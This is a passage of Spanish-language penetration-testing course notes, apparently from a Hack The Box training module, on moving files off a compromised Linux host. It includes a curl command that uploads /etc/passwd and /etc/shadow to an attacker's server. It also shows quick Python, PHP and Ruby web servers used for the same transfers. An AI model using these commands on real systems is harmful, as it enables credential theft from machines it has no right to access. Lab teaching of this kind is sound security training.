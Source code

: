 Ahora, desde nuestra máquina comprometida, subamos los archivos `/etc/passwd` y `/etc/shadow`.

### **Linux - Subir múltiples archivos**

```bash
sherlock28@htb[/htb]$ curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

Usamos la opción `--insecure` porque usamos un certificado autofirmado en el que confiamos.

## Método Alternativo de Transferencia de Archivos Web

Dado que las distribuciones de Linux suelen tener Python o PHP instalados, iniciar un servidor web para transferir archivos es algo sencillo. Además, si el servidor que comprometimos es un servidor web, podemos mover los archivos que queremos transferir al directorio del servidor web y acceder a ellos desde la página web, lo que significa que estamos descargando el archivo desde nuestro Pwnbox.

Es posible levantar un servidor web utilizando varios lenguajes. Una máquina Linux comprometida puede no tener un servidor web instalado. En tales casos, podemos usar un mini servidor web. Aunque estos servidores no son muy seguros, son flexibles, ya que la ubicación del webroot y los puertos de escucha se pueden cambiar rápidamente.

### **Linux - Crear un Servidor Web con Python3**

```bash
sherlock28@htb[/htb]$ python3 -m http.server

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

### **Linux - Crear un Servidor Web con Python2.7**

```bash
sherlock28@htb[/htb]$ python2.7 -m SimpleHTTPServer

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

### **Linux - Crear un Servidor Web con PHP**

```bash
sherlock28@htb[/htb]$ php -S 0.0.0.0:8000

[Fri May 20 08:16:47 2022] PHP 7.4.28 Development Server (http://0.0.0.0:8000) started
```

### **Linux - Crear un Servidor Web con Ruby**

```bash
sherlock28@htb[/htb]$ ruby -run -ehttpd . -p8000

[2022-05-23 09:35:46] INFO  WEBrick 1.6.1
[2022-05-23 09:35:46] INFO  ruby 2.7.4 (2021-07-07) [x86_64-linux-gnu]
[2022-05-23 09:35:46] INFO  WEBrick::HTTPServer#start: pid=1705 port=8000
```
